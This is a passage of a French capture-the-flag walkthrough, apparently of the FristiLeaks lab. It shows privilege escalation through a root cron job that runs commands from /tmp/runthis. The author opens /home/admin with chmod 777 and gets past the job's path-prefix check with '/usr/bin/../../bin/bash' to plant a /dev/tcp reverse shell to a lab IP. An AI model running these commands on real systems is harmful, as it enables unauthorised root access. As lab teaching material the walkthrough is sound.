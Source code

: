 L'une des solutions consiste à rendre accessible le contenu du répertoire ```/home/admin``` grâce à chmod.

```console
bash-4.1$ echo "/home/admin/chmod -R 777 /home/admin" > /tmp/runthis
echo "/home/admin/chmod -R 777 /home/admin" > /tmp/runthis

bash-4.1$ ls /home/admin
ls /home/admin
ls: cannot open directory /home/admin: Permission denied

--waiting--

bash-4.1$ ls /home/admin
ls /home/admin
cat    cronjob.py	cryptpass.py  echo   grep  whoisyourgodnow.txt
chmod  cryptedpass.txt	df	      egrep  ps
```

```console
bash-4.1$ ls -al /home/admin
ls -al
total 652
drwxrwxrwx. 2 admin     admin       4096 Nov 19  2015 .
drwxr-xr-x. 5 root      root        4096 Nov 19  2015 ..
-rwxrwxrwx. 1 admin     admin         18 Sep 22  2015 .bash_logout
-rwxrwxrwx. 1 admin     admin        176 Sep 22  2015 .bash_profile
-rwxrwxrwx. 1 admin     admin        124 Sep 22  2015 .bashrc
-rwxrwxrwx  1 admin     admin      45224 Nov 18  2015 cat
-rwxrwxrwx  1 admin     admin      48712 Nov 18  2015 chmod
-rwxrwxrwx  1 admin     admin        737 Nov 18  2015 cronjob.py
-rwxrwxrwx  1 admin     admin         21 Nov 18  2015 cryptedpass.txt
-rwxrwxrwx  1 admin     admin        258 Nov 18  2015 cryptpass.py
-rwxrwxrwx  1 admin     admin      90544 Nov 18  2015 df
-rwxrwxrwx  1 admin     admin      24136 Nov 18  2015 echo
-rwxrwxrwx  1 admin     admin     163600 Nov 18  2015 egrep
-rwxrwxrwx  1 admin     admin     163600 Nov 18  2015 grep
-rwxrwxrwx  1 admin     admin      85304 Nov 18  2015 ps
-rw-r--r--  1 fristigod fristigod     25 Nov 19  2015 whoisyourgodnow.txt
```

Le fichier ```cronjob.py``` nous apporte quelques éclaircissements quant à l'échec de notre _reverse shell_.

```console
bash-4.1$ tail -n1 cronjob.py
tail -n1 cronjob.py
            writefile("command did not start with /home/admin or /usr/bin")
```

La commande placée dans le fichier ```/tmp/runthis``` doit démarrer avec soit ```/home/admin``` soit ```/usr/bin```. Soit.

```console
bash-4.1$ echo "/usr/bin/../../bin/bash -i >& /dev/tcp/192.168.56.101/11111 0>&1" > /tmp/runthis
" > /tmp/runthis./../bin/bash -i >& /dev/tcp/192.168.56.101/11111 0>&1 

bash-4.1$ cat /tmp/runthis
cat /tmp/runthis
/usr/bin/../../bin/bash -i >& /dev/tcp/192.168.56.101/11111 0>&1
```
